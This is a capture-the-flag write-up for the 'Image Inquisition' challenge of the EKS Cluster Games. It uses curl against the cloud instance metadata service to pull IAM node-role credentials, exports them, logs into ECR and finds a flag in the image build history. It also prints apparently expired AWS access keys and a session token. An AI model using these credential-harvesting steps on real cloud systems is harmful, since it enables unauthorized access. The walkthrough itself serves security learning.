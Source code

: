 ```yaml
---
title: Image Inquisition - eksclustergames | 10 points
date: 2023-12-29 12:00:00 +100
categories: [eksclustergames, ctf, image-inquisition]
tags: [ctf, eksclustergames, image-inquisition]
---
```


>A pod's image holds more than just code. Dive deep into its ECR repository. Inspect the image layers, and uncover the hidden secret. You can also check the required K8s Cheat Sheet for this challenge within this page.
{: .prompt-info } 

If you check permissions, it's listed that we have `list and get pods` permissions. So, let's start with listing the pods.

>You can also check the permission using `kubectl` command as mentioned below.
```bash
root@wiz-eks-challenge:~# kubectl auth can-i list pod
yes
root@wiz-eks-challenge:~# kubectl auth can-i get pod
yes
```
{: .prompt-tip }

### List pods

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS      AGE
accounting-pod-876647f8   1/1     Running   1 (22d ago)   58d
```

As it's only one pod to focus, we can simply start with checking it's image (hint in the challenge description).

### Contianer Image

```bash
root@wiz-eks-challenge:~# kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

It's clear that the image is in ECR so obviously we need to run some AWS commands to go ahead.


```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

As the above command asked to login, we need to use the AWS Instance metadata service (IMDS) to get through it. Let's perform some required steps to login and get the Docker image from ECR.

### Instance Metadata Service (IMDS) to get IAM instance credentials

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam/security-credentials
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

### Get credentials

```bash
root@wiz-eks-challenge:~# curl -s 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq
{
  "AccessKeyId": "ASIA2AVYNEVM5QQU66N7",
  "Expiration": "2023-12-29 20:58:18+00:00",
  "SecretAccessKey": "8GFVVYgetRLMjTjjr0mQLLqCF9uNr0S7kSps+Mgn",
  "SessionToken": "FwoGZXIvYXdzEGUaDNIXeVNvbqF/NCkkdSK3AQiqCvidXKUztR2XOKM5t0iLlMLFlbjNiqd6pPjL6NrvTzZJ09e5TNmZ+Td1/mwvfVW9By5Tcrro0UHGTuLANkHR5klulXmAkCayYkiWtVXnKhAf6HMldwygnVX4Pygmd/k+y1lug+M7eeu6yLTUUBUSCkV+Fq0ofue4Bgz4ggxUTdIcu/NthDsVmucZX4AHsXIlCo8gc560vLK1b9P8i2cMIoVLKdeJLBUvxX80mAxsCdj2mZiRAijaybysBjItqjCqxmtmypWSBi/v354O9ziG5LqgzUldsGNBmJD1uOt1DxUs0qVy6VrUvfN/"
}
```

### Set AWS credential ENVs using inline bash command

```bash
root@wiz-eks-challenge:~# JSON="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole)"; export AWS_ACCESS_KEY_ID="$(echo "$JSON" | jq -r .
AccessKeyId)"; export AWS_SECRET_ACCESS_KEY="$(echo "$JSON" | jq -r .SecretAccessKey)";export AWS_SESSION_TOKEN="$(echo "$JSON" | jq -r .SessionToken)";
```

### Confirm permission using `sts:GetCallerIdentity`

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity | jq
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

### Login using AWS cli and Crane

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2023/12/29 20:11:42 logged in via /home/user/.docker/config.json
```

>Pull image from ECR using Crane if you want to use `dive`
```bash
crane pull "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" /tmp/image.tar
```
{: .prompt-tip }

Initially it was mentioned in this Challenge that, we need to check the image layers for getting the flag. For that, I chose `Crane` as it was mentioned that this tool is already installed else `dive` is also a nice choise for this.

### Check the config of the image

```bash
root@wiz-eks-challenge:~# crane config "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" | grep -i "wiz_eks_challenge"
{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

and the flag is

>wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future}
{: .prompt-info }

